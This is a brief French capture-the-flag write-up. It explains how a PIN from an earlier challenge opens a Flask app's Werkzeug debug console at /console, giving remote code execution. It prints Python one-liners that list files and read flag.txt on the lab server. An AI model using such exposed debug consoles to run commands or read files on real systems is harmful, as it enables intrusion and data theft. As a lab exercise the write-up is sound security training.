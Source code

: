 Suite du challenge "POST This Money", il vous faut le résoudre avant de pouvoir faire celui-ci

ATTENTION: PAS BESOIN ET INTERDICTION D'UTILISER DES OUTILS DE SCAN/FUZZING (nmap, ffuf, gobuster, dirb, etc). Leur utilisation risque de vous faire bannir temporairement du challenge !

Le flag est dans le fichier flag.txt
http://intro.ctfrei.fr:6002/ 

--------------------------------------

A la fin du challenge POST This money on obtient un code PIN.

Le nom du challenge avec "Flask" et la PIN nous ammène sur la piste d'une potentiel consol de debug Werkzeug. 

On va dans /console. On entre le PIN.

Et on obtient une RCE :

```
__import__('os').popen('ls').read();
__import__('os').popen('cat flag.txt').read();
CTFREI{le-flag}
```
